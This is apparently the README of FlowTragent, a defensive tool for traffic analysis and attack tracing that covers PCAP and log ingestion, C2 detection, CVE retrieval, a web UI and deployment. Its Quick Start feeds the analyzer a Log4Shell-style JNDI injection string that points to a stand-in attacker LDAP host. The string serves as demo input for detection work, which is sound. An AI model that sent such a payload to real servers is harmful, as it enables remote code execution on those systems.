

# FlowTragent

FlowTragent is an automated attack tracing system built around traffic analysis,
multi-source evidence correlation, and agent-assisted reasoning.

It wraps NOVA-F as the retrieval engine while keeping FlowTragent as an
independent system for PCAP parsing, payload/log ingestion, attack-chain
analysis, C2 detection, optional RAG context, scheduled Ollama review, live
alerting, and report generation.

## Architecture



The live path is intentionally lightweight: capture and prefilter run
continuously, deep analysis is rate-limited, duplicate alerts are merged,
notifications are suppressed by fingerprint windows, and Ollama review is kept
out of the hot path.

## Key Features

- Payload, PCAP, access log, DNS log, endpoint log, application log, Zeek log,
  and Suricata EVE ingestion.
- Attack-chain staging with evidence IDs and confidence reasoning.
- HTTP/DNS/TCP/ICMP C2 and anomaly detection.
- NOVA-F CVE retrieval with rule-aware reranking and low-similarity
  suppression.
- Evidence graph output in Mermaid, DOT, and SVG-rendered views.
- Web UI with token protection, upload validation, report browsing, alert
  views, and graph visualization.
- Live capture/analyzer workers with alert deduplication, cross-window activity
  correlation, rate limiting, and scheduled Ollama review.
- Prometheus `/metrics`, structured JSON Lines audit logs, Webhook
  notifications, and notification suppression.
- Dockerfile, Docker Compose, systemd units, and unified deployment guidance.

## Repository Layout

```text
FlowTragent/
|-- config/
|-- deploy/
|-- user_docs/
|-- libs/nova-f/
|-- scripts/
|-- src/
|   |-- agent/
|   |-- core/
|   |-- correlation/
|   |-- live/
|   |-- notification/
|   |-- orchestrator/
|   |-- parser/
|   |-- rag/
|   `-- report/
|-- static/
|-- templates/
|-- tests/
|-- Dockerfile
|-- docker-compose.yml
|-- LICENSE
|-- CHANGELOG.md
|-- CONTRIBUTING.md
|-- README.md
`-- README_EN.md
```

## Quick Start

```bash
cd ~/projects/FlowTragent
python3 -m venv flowtragent_env
source flowtragent_env/bin/activate
python -m pip install --upgrade pip setuptools wheel
python -m pip install -r requirements.txt
python main.py --mode payload --input 'GET /?x=${jndi:ldap://evil.example/a} HTTP/1.1 Host: victim' --demo-index
```

Expected result: a JSON and Markdown report is written under `reports/` with
impact assessment, CVE candidates, observed/missing evidence, confidence
drivers/reducers, and attack-chain context.

The default embedding model path is local:

```text
libs/nova-f/models/all-MiniLM-L6-v2
```

This avoids HuggingFace downloads when the NOVA-F model files are present.

## PCAP Demo

```bash
source flowtragent_env/bin/activate
python tests/make_demo_pcap.py
python main.py --mode pcap --input data/pcap/demo_attack.pcap --demo-index
ls -lh reports/
```

Additional demo traffic:

```bash
python tests/make_post_exploit_pcap.py
python main.py --mode pcap --input data/pcap/demo_post_exploit.pcap --enable-rag

python tests/make_http_beacon_pcap.py
python main.py --mode pcap --input data/pcap/demo_http_beacon.pcap --enable-rag
```

## Supplementary Logs

PCAP analysis can be enriched with structured logs:

```bash
python main.py --mode pcap --input data/pcap/demo_attack.pcap \
  --access-log access.log \
  --dns-log dns.jsonl \
  --endpoint-log endpoint.csv \
  --app-log app.jsonl \
  --zeek-log http.log \
  --suricata-log eve.jsonl
```

Endpoint and application evidence can raise confidence for post-exploitation
behavior, but ordinary host-side noise does not bypass HTTP 4xx downgrade
logic.

## Web UI

Development mode:

```bash
python web_app.py
```

Production-style local launch:

```bash
FLOWTRAGENT_HOST=127.0.0.1 FLOWTRAGENT_PORT=5000 scripts/run_web_prod.sh
curl http://127.0.0.1:5000/health
curl http://127.0.0.1:5000/metrics
```

Open <http://127.0.0.1:5000> and submit a payload or PCAP file. Set
`FLOWTRAGENT_TOKEN` to protect upload, delete, download, export, graph, and
alert views.

## Live Capture

```bash
sudo apt update
sudo apt install -y tcpdump
sudo python main.py --mode live --interface eth0 --capture-seconds 30 --output-dir ./reports
```

Manual capture still works:

```bash
sudo tcpdump -i eth0 -w /tmp/test.pcap
python main.py --mode pcap --input /tmp/test.pcap --output-dir ./reports
```

For long-running server mode, install the systemd units in `deploy/`:

```bash
sudo cp deploy/flowtragent-*.service /etc/systemd/system/
sudo systemctl daemon-reload
sudo systemctl enable --now flowtragent-web flowtragent-capture flowtragent-analyzer
curl http://127.0.0.1:5000/health
```

## Docker / Compose

Docker Compose entrypoints are available:

```bash
docker compose up --build
```

This starts the Web UI, live analyzer worker, and live capture worker. If the
host cannot grant capture permissions to the container, start Web and analyzer
first:

```bash
docker compose up --build web analyzer
```

Current caveat: Dockerfile and Compose configuration are present, and static
Compose configuration has been validated, but real `docker compose up --build`
still needs verification on a machine where Docker daemon is running.

## Observability

- `/health`: component and path health.
- `/metrics`: Prometheus text format metrics.
- `logs/flowtragent.jsonl`: structured JSON Lines audit log by default.
- Webhook notifications: disabled by default, configurable under
  `notification.webhook`.
- Notification suppression: defaults to a 300-second fingerprint window.

See [user_docs/FlowTragent_部署指南.md](user_docs/FlowTragent_部署指南.md) for deployment,
log rotation, and retention guidance.

## Evaluation Status

The DataCon evaluation loop is now reproducible:

- index build scripts record manifest metadata and excluded holdout IDs;
- holdout samples do not participate in index construction;
- evaluation reports include Top-1, Top-5, macro CVE Top-5, quality gates, and
  root-cause summaries;
- low-similarity candidates are suppressed instead of being forced into CVE
  conclusions.

Current caveat: the local `datacon_train_labeled.csv` source is below the
planned >=10,000 sample scale, so the current result is an engineering baseline,
not a final full-dataset benchmark.

## Verification

```bash
pytest tests/
python tests/test_web_app.py
python tests/test_agent_orchestrator.py
python tests/test_langgraph_runner.py
```

When scapy is available in Linux/WSL, also run:

```bash
python tests/test_pipeline.py
python tests/test_live_prefilter.py
python tests/test_live_analyzer_worker.py
```

## Runtime Artifacts

Do not commit runtime or sensitive artifacts:

- `logs/`
- `reports/`
- `data/live/`
- `data/tmp/`
- `data/index/`
- real PCAP files
- raw DataCon datasets
- model weights or private embeddings

## Project Documents

- [Deployment Guide](user_docs/FlowTragent_部署指南.md)
- [Chinese README](README_CN.md)
- [Chinese API Reference](user_docs/API_CN.md)
- [Chinese Architecture](user_docs/ARCHITECTURE_CN.md)
- [DataCon Retrieval Evaluation Report](user_docs/FlowTragent_DataCon检索评估报告.md)
- [Contributing Guide](CONTRIBUTING.md)
- [Changelog](CHANGELOG.md)
- [License](LICENSE)

## License

FlowTragent is released under the MIT License. See [LICENSE](LICENSE).
